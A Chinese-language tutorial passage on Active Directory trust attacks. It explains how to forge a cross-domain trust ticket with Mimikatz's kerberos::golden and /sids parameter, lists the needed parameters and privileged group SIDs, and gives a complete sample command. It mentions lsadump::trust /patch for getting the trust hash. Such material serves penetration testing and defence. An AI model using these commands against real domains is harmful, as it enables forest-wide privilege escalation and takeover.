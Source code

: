 ![](../img/trust1.jpg)

步骤2：使用Mimikatz创建一个伪造的受信任票据（跨域TGT）
伪造票据说明了该票据的持有者为AD林中的Enterprise Admin，拥有从子域到父域的完全访问权限。值得注意的是该伪造的用户不存在于任何计算机上，因为使用了黄金票据来得到域的信任，mimikatz使用`kerberos::golden`来创建一个信任票据。
创建信任票据必要的参数，其他参数和黄金票据一样
- /target	目标域名的FQDN
- /service	目标服务器上运行的kerberos服务（krbtgt）
- /rc4		目标服务器上运行Kerberos服务的服务账号的NTLM HASH（krbtgt）
- /ticket	提供一个路径/名字来保存伪造的票据，方便之后使用/ptt参数快速将黄金票据注入到内存中使用

信任票据的默认组
- Domain Users SID: S-1-5-21<DOMAINID>-513
- Domain Admins SID: S-1-5-21<DOMAINID>-512
- Schema Admins SID: S-1-5-21<DOMAINID>-518
- Enterprise Admins SID: S-1-5-21<DOMAINID>-519  (只有在林的根域中创建了伪造的票据并且使用/sids参数指定AD林中的管理员权限的情况下才会有效)
- Group Policy Creator Owners SID: S-1-5-21<DOMAINID>-520

```
Mimikatz “kerberos::golden /domain:child.adsec.lab /sid:S-1-5-21-1420805320-1455282633-3118636415 /sids:S-1-5-21-809894267-1102385918-1530562782-519 /rc4:79003cc0433d25fe9606cf46f2aea8d1 /user:deadfk3 /service:krbtgt /target:adsec.lab /ticket:c:\temp\CHILD.ADSEC.LAB.kirbi” exit
SIDS是父域的Enterprise Admin SID，SID是当前域的SID，NTLM HASH是父域的rc4,使用lsadump::trust /patch可以得到
注：使用SIDS参数会创建一个信任票据，从而告诉目标域，该信任票据的持有者是一个Enterprise Admin成员
```